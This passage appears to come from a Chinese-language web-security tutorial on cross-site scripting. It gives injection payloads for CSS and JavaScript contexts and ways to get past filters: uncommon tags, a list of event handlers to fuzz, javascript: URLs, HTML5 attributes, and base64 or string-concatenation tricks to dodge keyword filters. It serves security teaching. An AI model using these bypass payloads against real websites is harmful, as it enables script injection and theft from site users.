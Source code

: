 ```css
body{
	color:{{your input}};
}
</style>
/*
	payload: #000; background-image:url('javascript:alert(/xss/)')
*/
```
#### 6.6.3 js代码
```javascript
var name='{{your input}}';
//payload:'+alert(/xss/)+'
```
### 6.7 防护与绕过
#### 6.7.1 特定标签过滤
过滤掉部分危险标签script、iframe等并不能防止XSS
```html
<not_real_tag onclick="alert(/xss/)"></not_real_tag>
```
[HTML5 Security Cheatsheet](http://html5sec.org)中提供了大量XSS攻击向量可供参考
#### 6.7.2 事件过滤
可以对所有可利用事件进行遍历测试开发者是否有遗漏，常用事件如下，可以使用burp或自己编写脚本进行Fuzz
```text
onafterprint		oninput				onscroll
onbeforeprint		oninvalid			onabort
onbeforeunload		onreset				oncanplay
onerror				onselect			oncanplaythrough
onhaschange			onsubmit			ondurationchange
onload				onkeydown			onemptied
onmessage			onkeypress			onended
onoffline			onclick				onloadeddata
ononline			ondblclick			onloadedmetadata
onpageshow			ondrag				onloadstart
onpopstate			ondragend			onpause
onredo				ondragenter			onplay
onresize			ondragleave			onplaying
onstorage			ondragover			onprogress
onundo				ondragstart			onratechange
onunload			ondrop				onreadystatechange
onblur				onmousedown			onseeked
onchange			onmousemove			onseeking
oncontextmenu		onmouseout			onstalled
onfocus				onmouseover			onsuspend
onformchange		onmouseup			ontimeupdate
onforminput			onmousewheel		onvolumechange
```
**还有一些常见的标签属性本身并不属于事件属性，但可用于执行JavaScript代码，常见的JavaScript伪协议**
```html
<a href="javascript:alert(/xss/)">click me</a>
```
**HTML5中的某些新属性也可以用于事件过滤绕过**
```html
<details open ontoggle="alert(/xss/)">
<form><button formaction="javascript:slert(/xss/)">X</button>
...
```
#### 6.7.3 敏感关键字过滤
关键字过滤主要针对敏感变量或函数进行，cookie、eval，可以通过字符串拼接、编码解码等方法进行绕过
1. 字符出拼接与混淆
JS中的对象方法可以通过数组的方式进行调用
`window['alert'](/xss/)`=>`window['al'+'ert'](/xss/)`
可以用JS自带的Base64编码解码函数来实现字符串过滤的绕过，btoa将字符串转换为Base64字符串，atob反之
`window[atob("YWxl"+"cnQ=")](/xss/)`